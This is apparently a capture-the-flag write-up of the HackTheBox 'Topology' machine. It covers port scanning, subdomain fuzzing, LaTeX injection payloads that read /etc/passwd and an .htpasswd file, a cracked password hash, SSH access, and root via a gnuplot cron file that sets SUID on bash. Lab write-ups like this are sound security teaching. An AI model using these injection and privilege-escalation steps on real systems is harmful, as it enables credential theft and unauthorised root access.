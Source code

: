 ```yaml
---
categories: [HackTheBox]
tags: [LaTeX, subdomain, PrivEsc]  
image:
  path: /Vulnhub-Files/img/Topology/Untitled.png
  alt: Topology HackTheBox Machine 🫡
---
```




## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Topology]
└─$ cat Nmap_results.txt 
# Nmap 7.94 scan initiated Wed Oct  4 21:24:34 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.11.217
Nmap scan report for 10.10.11.217
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

While checking port 80 I got the DNS name that is `topology.htb` and I searched for any subdomains and through source code I got one subdomain and rest from ffuf tool →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%201.png)

form source code I got one →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%202.png)

Now with tool called as `ffuf` I got 2 other subdomains →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Topology]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.topology.htb" -u http://topology.htb -fs 6767

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       'v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 6767
________________________________________________

dev                     [Status: 401, Size: 463, Words: 42, Lines: 15, Duration: 1659ms]
stats                   [Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 852ms]
:: Progress: [19966/19966] :: Job [1/1] :: 11 req/sec :: Duration: [0:24:26] :: Errors: 0 ::
```

Lets see the `latex.topology.htb` site first →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%203.png)

I then searched for Latex Injection on web and I got some inputs like this →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%204.png)

I used this one to get the output →

```bash
$\lstinputlisting{/etc/passwd}$
```

![Untitled](/Vulnhub-Files/img/Topology/Untitled%205.png)

Now as I got the `dev` subdomain so I think this site is `apache` based and could contains `.htpasswd` file so lets try to access this file →

```bash
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

and I got this →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%206.png)

```bash
vdaisley : $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

Now Lets crack this hash with hashcat Tool →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%207.png)

```bash
vdaisley : calculus20
```

## SSH SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Topology]
└─$ ssh vdaisley@topology.htb
vdaisley@topology.htbs password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

vdaisley@topology:~$ whoami
vdaisley
vdaisley@topology:~$ id
uid=1007(vdaisley) gid=1007(vdaisley) groups=1007(vdaisley)
vdaisley@topology:~$
```

Lets dig deeper for root access →

I capture these data through pspy64 Tool that analyses the network pattern →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%208.png)

I searched on web regarding this gnuplot and I get the info as →

> ***gnuplot*** is a command-line and GUI program that can generate two- and three-dimentional plots of functions, data, and data fits.
{: .prompt-tip }

and I also got an exploit related to it from [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/).

In this case I created a file called as `test.plt` and executed the command to make `bash` have SUIDs permission , as the cron will execute on its own through root privileges so →

```bash
vdaisley@topology:/tmp$ nano /opt/gnuplot/test.plt
vdaisley@topology:/tmp$ cat /opt/gnuplot/test.plt
system "chmod u+s /bin/bash"
vdaisley@topology:/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
vdaisley@topology:/tmp$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
bash-5.0# cd /root
bash-5.0# ls -al
total 28
drwx------  4 root root 4096 Jun 14 07:47 .
drwxr-xr-x 18 root root 4096 Jun 12 10:37 ..
lrwxrwxrwx  1 root root    9 Mar 13  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Jan 17  2023 .bashrc
drwx------  3 root root 4096 Jan 17  2023 .config
drwxr-xr-x  3 root root 4096 May 12 07:34 .local
-rw-r--r--  1 root root  161 Jan 17  2023 .profile
-rw-r-----  1 root root   33 Oct  4 14:00 root.txt
bash-5.0#
```

I am Root Now !!